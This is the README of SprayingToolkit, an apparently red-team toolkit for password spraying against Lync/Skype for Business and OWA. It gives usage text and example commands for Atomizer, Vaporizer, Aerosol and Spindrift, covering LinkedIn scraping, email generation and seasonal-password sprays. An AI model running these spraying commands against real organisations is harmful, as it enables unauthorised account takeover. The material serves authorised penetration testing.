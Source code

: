 # SprayingToolkit

<p align="center">
  <img src="http://38.media.tumblr.com/79d7e2a376cb96fb581b3453070f6229/tumblr_ns5suorqYu1szok8ro1_500.gif" alt="SprayingToolkit"/>
</p>


## Description

A set of Python scripts/utilities that *tries* to make password spraying attacks against Lync/S4B & OWA a lot quicker, less painful and more efficient.

### Brought To You By

<p align="center">
  <a href="https://www.blackhillsinfosec.com/">
    <img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png" alt="blackhillsinfosec"/>
  </a>
</p>

## Tool Overview

### Atomizer

A blazing fast password sprayer for Lync/Skype For Business and OWA, built on Asyncio and Python 3.7

#### Usage
```
Usage:
    atomizer (lync|owa) <target> <password> <userfile> [--threads THREADS] [--debug]
    atomizer (lync|owa) <target> --csvfile CSVFILE [--user-row-name NAME] [--pass-row-name NAME] [--threads THREADS] [--debug]
    atomizer (lync|owa) <target> --user-as-pass USERFILE [--threads THREADS] [--debug]
    atomizer (lync|owa) <target> --recon [--debug]
    atomizer -h | --help
    atomizer -v | --version

Arguments:
    target     target domain or url
    password   password to spray
    userfile   file containing usernames (one per line)

Options:
    -h, --help               show this screen
    -v, --version            show version
    -c, --csvfile CSVFILE    csv file containing usernames and passwords
    -t, --threads THREADS    number of concurrent threads to use [default: 3]
    -d, --debug              enable debug output
    --recon                  only collect info, don't password spray
    --user-row-name NAME     username row title in CSV file [default: Email Address]
    --pass-row-name NAME     password row title in CSV file [default: Password]
    --user-as-pass USERFILE  use the usernames in the specified file as the password (one per line)
```

#### Examples

```bash
python atomizer.py owa contoso.com 'Fall2018' emails.txt
```

```bash
python atomizer.py lync contoso.com 'Fall2018' emails.txt
```

```bash
python atomizer lync contoso.com --csvfile accounts.csv
```

```bash
python atomizer lync contoso.com --user-as-pass usernames.txt
```

```bash
python atomizer owa 'https://owa.contoso.com/autodiscover/autodiscover.xml' --recon
```

### Vaporizer

A port of [@OrOneEqualsOne](https://twitter.com/OrOneEqualsOne)'s [GatherContacts](https://github.com/clr2of8/GatherContacts) Burp extension to [mitmproxy](https://mitmproxy.org/) with some improvements.

Scrapes Google and Bing for LinkedIn profiles, automatically generates emails from the profile names using the specified pattern and performes password sprays in real-time.

(Built on top of Atomizer)

#### Examples

```bash
mitmdump -s vaporizer.py --set sprayer=(lync|owa) --set domain=domain.com --set target=<domain or url to spray> --set password=password --set email_format='{f}.{last}'
```

By default `email_format` is set to `{first}.{last}` pattern and is not a required argument.

The `domain` parameter is the domain to use for generating emails from names, the `target` parameter is the domain or url to password spray

Install the mitmproxy cert, set the proxy in your browser, go to google and/or bing and search (make sure to include the `/in`):

`site:linkedin.com/in "Target Company Name"`

Emails will be dumped to `emails.txt` in the specified format, and passed to Atomizer for spraying.


### Aerosol

Scrapes all text from the target website and sends it to [AWS Comprehend](https://aws.amazon.com/comprehend/) for analysis to generate custom wordlists for password spraying.

**Still a work in progress**

#### Usage

```bash
mitmdump -s aerosol.py --set domain=domain.com
```

### Spindrift

Converts names to active directory usernames (e.g `Alice Eve` => `CONTOSO\aeve`)

#### Usage

```
Usage:
    spindrift [<file>] [--target TARGET | --domain DOMAIN] [--format FORMAT]

Arguments:
    file    file containing names, can also read from stdin

Options:
    --target TARGET   optional domain or url to retrieve the internal domain name from OWA
    --domain DOMAIN   manually specify the domain to append to each username
    --format FORMAT   username format [default: {f}{last}]
```

#### Examples

Reads names from STDIN, `--domain` is used to specify the domain manually:

```bash
cat names.txt | ./spindrift --domain CONTOSO
```

Reads names from `names.txt`, `--target` dynamically grabs the internal domain name from OWA (you can give it a domain or url)

```bash
python spindrift.py names.txt --target contoso.com
```
